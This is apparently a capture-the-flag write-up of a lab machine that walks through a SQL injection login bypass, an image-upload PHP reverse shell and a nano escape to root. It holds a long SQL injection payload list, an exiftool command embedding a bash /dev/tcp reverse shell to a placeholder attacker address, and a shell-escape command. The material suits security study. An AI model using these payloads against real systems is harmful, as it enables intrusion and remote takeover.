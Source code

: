 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007144658.png)
**FUZZING FOR PORT 80**:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007150803.png)
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007152753.png)

Let's launch the attack:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007152809.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007153027.png)

If we look around, we find an image upload section:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007153644.png)

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007160746.png)

Let's try to upload it now:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007161320.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007161325.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007163005.png)
seems like the password for user mike, let's su to mike:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007163724.png)
We found a rootkit.sh script, let's look at it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007164109.png)

If we execute the script as the root user, this happens:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007165053.png)

Let's enter the read option:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007165137.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007165154.png)

And just like that, we got root access!

